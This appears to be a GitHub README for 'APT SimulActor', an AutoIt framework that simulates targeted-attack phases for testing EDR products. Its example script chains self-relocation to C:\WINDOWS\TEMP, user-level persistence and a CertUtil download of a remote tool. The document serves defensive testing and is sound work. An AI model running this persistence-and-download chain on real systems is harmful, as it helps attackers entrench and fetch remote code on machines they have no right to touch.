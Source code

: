 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.

## Example Code
```
#include <APT-SimulActor.au3>

init()

if InternetCheck() Then

   If numberOfLogins(whoami()) > 2 Then

	  if isRunningFromFolder("C:\WINDOWS\TEMP") Then

		 SetPersistent4CurrentUser()

		 CertUtilDownloader($PSTools_URL)

	  Else

		 MoveAndRunAgain("C:\WINDOWS\TEMP")

	  EndIf

   EndIf

EndIf

```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

## Disclaimer

The APT-SimulActor use requires authorization from proper stakeholders. Author and Contributors will not be responsible for the malfunctioning or weaponization of the tool.
